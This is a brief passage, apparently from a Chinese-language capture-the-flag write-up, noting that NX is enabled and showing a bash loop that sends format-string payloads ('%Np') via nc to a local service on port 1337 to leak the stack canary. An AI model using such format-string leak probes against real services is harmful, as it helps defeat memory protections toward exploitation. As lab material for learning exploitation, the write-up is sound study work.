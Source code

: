 ![Untitled%2010.png](./img/Untitled%2010.png)

由於開 nx ，為了找出 canary 使用 fmtstr 找尋

```bash
for a in (seq 1 20)
do
	echo a
  echo info '%'a'p' | nc localhost 1337 
  echo 
done
```
